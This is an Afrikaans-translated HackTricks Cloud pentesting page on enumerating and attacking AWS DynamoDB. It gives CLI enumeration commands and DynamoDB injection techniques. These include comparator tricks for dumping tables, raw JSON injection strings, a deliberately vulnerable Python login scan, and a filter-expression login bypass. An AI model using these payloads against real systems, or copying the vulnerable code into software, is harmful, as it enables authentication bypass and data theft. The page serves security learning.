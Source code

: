 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB word deur AWS aangebied as 'n **volledig bestuurde, serverlose, sleutel-waarde NoSQL-databasis**, ontwerp om hoë-prestasie toepassings te ondersteun, ongeag hul grootte. Die diens verseker robuuste kenmerke, insluitend ingeboude sekuriteitsmaatreëls, ononderbroke rugsteun, outomatiese replikaasies oor verskeie streke, geïntegreerde in-geheue kas, en gerieflike data-uitvoer nutsmiddels.

In die konteks van DynamoDB, in plaas daarvan om 'n tradisionele databasis op te stel, **word tafels geskep**. Elke tafel vereis die spesifikasie van 'n **partisie sleutel** as 'n integrale komponent van die **tafel se primêre sleutel**. Hierdie partisie sleutel, wat essensieel 'n **hash waarde** is, speel 'n kritieke rol in beide die herwinning van items en die verspreiding van data oor verskeie gasheers. Hierdie verspreiding is van kardinale belang om beide skaalbaarheid en beskikbaarheid van die databasis te handhaaf. Daarbenewens is daar 'n opsie om 'n **sorteer sleutel** in te sluit om data-organisasie verder te verfyn.

### Encryption

Standaard gebruik DynamoDB 'n KMS-sleutel wat \*\*aan Amazon DynamoDB behoort,\*\* nie eens die AWS bestuurde sleutel wat ten minste aan jou rekening behoort nie.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Dit is moontlik om **die generasie van tafelrugsteun** te **skeduleer** of om dit op **aanvraag** te skep. Boonop is dit ook moontlik om **Punt-in-tyd herstel (PITR) vir 'n tafel in te skakel.** Punt-in-tyd herstel bied deurlopende **rugsteun** van jou DynamoDB-data vir **35 dae** om jou te help beskerm teen per ongeluk skryf- of verwyderingsoperasies.

Dit is ook moontlik om **die data van 'n tafel na S3 te eksporteer**, maar die tafel moet **PITR geaktiveer** hê.

### GUI

Daar is 'n GUI vir plaaslike Dynamo dienste soos [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), ens., wat nuttig kan wees: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Ongeauthentiseerde Toegang

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Post Exploitatie

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Volharding

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB Inspuiting

### SQL Inspuiting

Daar is maniere om toegang te verkry tot DynamoDB data met **SQL-sintaksis**, daarom is tipiese **SQL inspuitings ook moontlik**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Inspuiting

In DynamoDB kan verskillende **voorwaardes** gebruik word om data te verkry, soos in 'n algemene NoSQL Inspuiting. As dit moontlik is om **meer voorwaardes te ketting om** data te verkry, kan jy verborge data verkry (of die hele tabel dump).\
Jy kan hier die voorwaardes vind wat deur DynamoDB ondersteun word: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

Let daarop dat **verskillende voorwaardes** ondersteun word as die data via **`query`** of via **`scan`** verkry word.

{% hint style="info" %}
Werklik, **Query** aksies moet die **voorwaarde "EQ" (gelyk)** in die **primêre** sleutel spesifiseer om te werk, wat dit baie **minder geneig maak tot NoSQL inspuitings** (en ook die operasie baie beperk maak).
{% endhint %}

As jy die **vergelyking** wat uitgevoer word kan **verander** of nuwe kan byvoeg, kan jy meer data verkry.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Rauwe Json-inspuiting

{% hint style="danger" %}
**Hierdie kwesbaarheid is gebaseer op dynamodb Scan Filter wat nou verouderd is!**
{% endhint %}

**DynamoDB** aanvaar **Json**-objekte om **data** binne die DB te **soek**. As jy vind dat jy in die json-objek wat gestuur word om te soek, kan skryf, kan jy die DB dump, al die inhoud.

Byvoorbeeld, inspuiting in 'n versoek soos:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

'n aanvaller kan iets soos injecteer:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

regstel die "EQ" voorwaarde wat soek na die ID 1000 en dan soek na al die data met 'n Id-string groter as 0, wat alles is.

Nog 'n **kwetsbare voorbeeld wat 'n aanmelding gebruik** kan wees:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Dit sou kwesbaar wees vir:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Sommige SDK's laat jou toe om 'n string te gebruik wat die filtrering aandui wat uitgevoer moet word soos: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Jy moet weet dat wanneer jy in DynamoDB soek om 'n attribuut **waarde** in **filteruitdrukkings** te **vervang** terwyl jy die items skandeer, die tokens moet **begin** met die **`:`** karakter. Sulke tokens sal met die werklike **attribuutwaarde tydens uitvoering** **vervangen** word.

Daarom kan 'n aanmelding soos die vorige omseil word met iets soos:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

